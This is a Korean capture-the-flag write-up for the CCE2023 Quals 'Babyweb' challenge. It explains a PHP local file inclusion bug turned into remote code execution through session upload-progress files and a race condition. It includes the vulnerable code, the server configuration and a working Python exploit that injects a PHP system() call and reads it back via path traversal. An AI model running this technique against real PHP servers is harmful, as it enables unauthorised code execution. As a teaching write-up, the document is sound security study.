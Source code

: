 ```yaml
---
layout: post
date: 2023-06-11
title: CCE2023 Quals Babyweb write-up
tags: [LFI2RCE, webhacking, ]
categories: [CTF, CCE2023, ]
---
```


### 취약점 분석


먼저 제공된 파일 중 `index.php`을 보면 GET 파라미터로 넘어온 값을 include 한다는 것을 알 수 있다.


```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>

```


이를 통해 LFI 취약점을 트리거 할 수 있는데, php 내용을 어디에 쓸 수 있을 지가 고민이었다.


`www.conf`의 내용을 보면 `session.upload_progress.enabled`가 1로 설정되어 있으므로, `PHP_SESSION_UPLOAD_PROGRESS`를 통해 php 코드를 업로드 할 수 있다.


```text
[www]
user = www-data
group = www-data
listen = /run/php/php7.4-fpm.sock
listen.owner = www-data
listen.group = www-data
pm = dynamic
pm.max_children = 48
pm.start_servers = 16
pm.min_spare_servers = 8
pm.max_spare_servers = 16
php_admin_value[session.upload_progress.enabled] = 1
php_admin_value[memory_limit] = 32M
php_admin_value[max_execution_time] = 10s
php_admin_value[opcache.enable] = 0
request_terminate_timeout = 15s

```


`session.upload_progress.enabled`옵션은 php 내부에서 업로드 중인 개별 파일의 진행률을 추적하기 위해 사용된다.
해당 옵션이 켜져있으면 `session_start` 함수 없이도 세션 파일을 생성할 수 있으므로 세션 파일을 통해 RCE를 진행할 수 있다.


다만, 해당 문제에서는 `session.upload_progress.cleanup` 옵션이 활성화 되어 있으므로 세션 파일이 바로 삭제된다. 하지만 크기가 큰 파일을 보내고, Race Condition을 통하면 세션 파일을 읽을 수 있다.


### 익스플로잇


```python
import requests
import threading

SERVER = False
url = '<http://localhost:8080>' if not SERVER else "<http://20.196.197.149:8000>"


def read_session():
    while True:
        res = requests.get(
            url + "/?page=../../../../../../../../../../var/lib/php/sessions/sess_lourcode")
        if len(res.text) != 0:
            print(res.text)

def write_session():
    while True:
        res = requests.post(url, files={'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag") ?>'), 'file': ('lourcode', 'lourcode' * 0x300, 'application/octet-stream', {
                            'Expires': '0'})}, cookies={'PHPSESSID': 'lourcode'})



read = threading.Thread(target=read_session)
read.start()

write = threading.Thread(target=write_session)
write.start()
```


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7408dda1-cd86-4a3d-ba15-65d01621923b/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230614%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230614T093513Z&X-Amz-Expires=3600&X-Amz-Signature=a3a8a921599d83ffb70666507d44e7724d8af10818ac4c62875ed66a93fc45d7&X-Amz-SignedHeaders=host&x-id=GetObject)


플래그를 획득하였다.


### Reference


[https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress)


